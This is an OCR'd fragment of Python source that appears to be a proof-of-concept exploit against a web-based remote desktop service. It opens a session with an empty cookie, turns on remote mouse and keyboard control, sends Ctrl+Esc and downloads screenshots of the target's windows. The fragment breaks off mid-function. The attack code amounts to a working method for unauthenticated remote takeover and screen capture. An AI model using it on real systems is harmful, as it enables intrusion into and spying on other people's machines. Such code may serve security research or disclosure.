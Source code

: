 ```python
    "Referer": "http://172.16.28.140:8081/"
}

def login_sid(base_url):
    url = base_url + "/cmd?cmd=connect&destAddr=poc&id=0"
    cookies = {"SID": ""}
    r = requests.get(url, headers=headers, cookies=cookies, proxies=proxies, verify=False)
    #r = requests.get(url, headers=headers, cookies=cookies, verify=False)

    return r.json()['id']


def start_sid(base_url, sid):

    url = base_url + "/cmd?cmd=start&mouseControl=true&kbdControl=true&quality=85&pixelFormat=0&monitor=0&id=%s" % sid
    cookies = {"SID": "%s" % sid}
    r = requests.get(url, headers=headers, cookies=cookies, proxies=proxies, verify=False)
    #r = requests.get(url, headers=headers, cookies=cookies, verify=False)
    time.sleep(1)


def send_ctrl_esc(base_url, sid):

    url = base_url + "/cmd?cmd=fkey&key=CtrlEsc&id=%s" % sid
    cookies = {"SID": "%s" % sid}
    requests.get(url, headers=headers, cookies=cookies, proxies=proxies, verify=False)
    #requests.get(url, headers=headers, cookies=cookies, verify=False)
    time.sleep(1)


def get_images(base_url, sid):

    os.system("rm images/*.jpg")

    x = 0

    url = base_url + "/json?id=%s" % sid
    cookies = {"SID": "%s" % sid}

    r = requests.get(url, headers=headers, cookies=cookies, proxies=proxies, verify=False)
    #r = requests.get(url, headers=headers, cookies=cookies, verify=False)

    windows = r.json()['windows']


    for w in windows:

        if "imgs" in w:
            for img in w["imgs"]:
                x += 1

                str_image = img["img"].replace("data:image/jpeg;base64,","")

                name_txt = 'images/%s.txt' % str(x)

                name_png = 'images/%s.jpg' % str(x)

                f = open(name_txt,'w')
                f.write(str_image)
                f.close()

                try:
```